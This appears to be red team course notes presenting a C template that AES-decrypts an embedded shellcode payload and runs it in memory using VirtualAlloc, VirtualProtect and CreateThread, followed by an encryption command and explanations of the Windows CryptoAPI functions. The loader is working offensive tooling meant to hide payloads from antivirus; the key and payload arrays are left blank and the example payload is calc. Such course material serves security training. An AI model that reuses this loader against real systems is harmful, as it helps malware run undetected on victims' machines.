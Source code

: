 
Code snippet
```c
/*

 Red Team Operator course code template
 payload encryption with AES
 
 author: reenz0h (twitter: @sektor7net)

*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#include <psapi.h>


int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;

        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                return -1;
        }
        
        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)){
                return -1;
        }
        
        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);
        
        return 0;
}


int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	char key[] = 
	unsigned char calc_payload[] = 
	unsigned int calc_len = sizeof(calc_payload);
	
	// Allocate memory for payload
	exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "calc_payload addr", (void *)calc_payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	printf("\nHit me 1st!\n");
	getchar();

	// Decrypt payload
	AESDecrypt((char *) calc_payload, calc_len, key, sizeof(key));
	
	// Copy payload to allocated buffer
	RtlMoveMemory(exec_mem, calc_payload, calc_len);
	
	// Make the buffer executable
	rv = VirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me 2nd!\n");
	getchar();

	// If all good, launch the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```

---

Encrypt payload - take the key
```bash
python aesencrypt.py calc.bin
```

---

In Windows API, you can use and older **Cryptographic API (CryptoAPI)** to perform AES encryption and decryption with functions like `CryptAcquireContextW()`, `CryptHashData()`, `CryptEncrypt()` or `CryptDecrypt()`. But Win API delivers another, newer API - the **Cryptography API: Next Generation** (CNG) with several functions for AES, ex. `BCryptOpenAlgorithmProvider()`, `BCryptGenerateSymmetricKey()`, `BCryptEncrypt()`, etc.

#### Decrypting AES payload algorithm (C-like pseudo-code)

```c
// 1. open a handle hProv to a Cryptographic Service Provider - a module
// implementing specific crypto algorithms, like RSA, AES, etc.
CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)

// 2. prepare a new hashing object to generate a SHA-256 hash from the provided key
CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)

// 3. create SHA-256 hash from the key
CryptHashData(hHash, key, keylen, 0)

// 4. derive a symmetric AES-256 key from the hash
CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)

// 5. finally, decrypt the payload
CryptDecrypt(hKey, NULL, 0, 0, payload, &payload_len)
```

---
#### Key Windows API functions

[**_CryptAcquireContextW()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptacquirecontexta) is used to acquire a handle to a **Cryptographic Service Provider** (CSP) and, if necessary, to create a new key container. In other words, this function helps to establish a cryptographic context that allows applications to access and use cryptographic services provided by the CSP. A CSP is a software module that implements cryptographic algorithms and provides services such as encryption, decryption, hashing, and digital signatures. This function can be found in the _advapi32.dll_ library.

`CryptAcquireContextW()` function has the following prototype:

```c
BOOL WINAPI CryptAcquireContextW(
  HCRYPTPROV *phProv,        // pointer to a handle of a CSP [out param]
  LPCWSTR    pszContainer,   // key container name (null-terminated string). When dwFlags is set to CRYPT_VERIFYCONTEXT, pszContainer must be set to NULL
  LPCWSTR    pszProvider,    // null-terminated string that contains the name of the CSP to be used. If NULL == default provider
  DWORD      dwProvType,    // type of provider to acquire, ex. PROV_RSA_FULL, PROV_RSA_AES, PROV_DSS_DH, etc.
  DWORD      dwFlags        // flag values, usually set to zero. CRYPT_VERIFYCONTEXT for ephemeral keys
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

---

[**_CryptCreateHash()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptcreatehash) is used to create a handle to a hash object for a particular hash algorithm. This function can be found in the _advapi32.dll_ library.

`CryptCreateHash()` function has the following prototype:

```c
BOOL WINAPI CryptCreateHash(
  HCRYPTPROV hProv,    // handle to a CSP created by a call to CryptAcquireContext()
  ALG_ID     Algid,    // identifies the hash algorithm to use, ex. CALG_SHA_256, CALG_AES_128, CALG_ECDH, etc.
  HCRYPTKEY  hKey,     // type of hash algorithm is a keyed hash (like MAC or HMAC). Zero if nonkeyed algos
  DWORD      dwFlags,  // 0 or CRYPT_SECRETDIGEST (not used)
  HCRYPTHASH *phHash   // address to which the function copies a handle to the new hash object (pointer)
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

---

[**_CryptHashData()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-crypthashdata) is used for hashing data using various hash algorithms provided by the operating system. This function can be found in the _advapi32.dll_ library.

`CryptHashData()` function has the following prototype:

```c
BOOL CryptHashData(
  HCRYPTHASH hHash,      // handle of the hash object
  const BYTE *pbData,    // pointer to a buffer that contains the data to be added to the hash object (the key) must be casted
  DWORD      dwDataLen,  // number of bytes of data to be added (keyl lenght) must be casted
  DWORD      dwFlags     // 0 - nothing, 0x1 - CRYPT_USERDATA
);
```

**Return value**

If the function succeeds, the function returns nonzero (`TRUE`). Otherwise, it returns zero (`FALSE`).

---

[**_CryptDeriveKey()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptderivekey) generates cryptographic [session keys](https://learn.microsoft.com/en-us/windows/desktop/SecGloss/s-gly) derived from a base data value. This function guarantees that when the same CSP and algorithms are used, the keys generated from the same base data are identical. The base data can be a password or any other user data. This function can be found in the _advapi32.dll_ library.

`CryptDeriveKey()` function has the following prototype:

```c
BOOL CryptDeriveKey(
  HCRYPTPROV hProv,      // handle of a CSP created by a call to CryptAcquireContext()
  ALG_ID     Algid,      // identifies the hash algorithm to use, ex. CALG_3DES, CALG_AES_128, CALG_ECDH, etc. 
  HCRYPTHASH hBaseData,  // handle to a hash object that has been fed the exact base data
  DWORD      dwFlags,    // type of key generated, can be zero or one or more values, ex. CRYPT_CREATE_SALT, CRYPT_EXPORTABLE, CRYPT_UPDATE_KEY, etc.
  HCRYPTKEY  *phKey      // pointer to a variable to receive the address of the handle of the newly generated key
);
```
